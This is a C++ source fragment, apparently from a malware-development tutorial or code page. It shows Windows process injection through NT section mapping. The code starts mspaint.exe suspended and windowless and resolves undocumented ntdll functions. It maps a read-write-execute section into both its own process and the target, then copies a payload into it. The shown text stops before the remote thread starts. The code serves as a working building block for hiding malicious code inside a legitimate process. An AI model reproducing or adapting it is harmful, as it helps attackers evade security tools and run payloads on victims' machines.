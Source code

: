 ```cpp
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = 
  (pZwCreateSection)(GetProcAddress(
    ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));
  pZwCreateThreadEx myZwCreateThreadEx = 
  (pZwCreateThreadEx)GetProcAddress(
    ntdll, "ZwCreateThreadEx");
  pZwClose myZwClose = 
  (pZwClose)GetProcAddress(
    ntdll, "ZwClose");

  // create process as suspended
  if (!CreateProcessA(NULL, 
  (LPSTR) "C:\\windows\\system32\\mspaint.exe", 
  NULL, NULL, NULL,
  CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW, 
  NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };

  myZwCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, &sectionS, PAGE_EXECUTE_READWRITE, 
  SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);

  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
```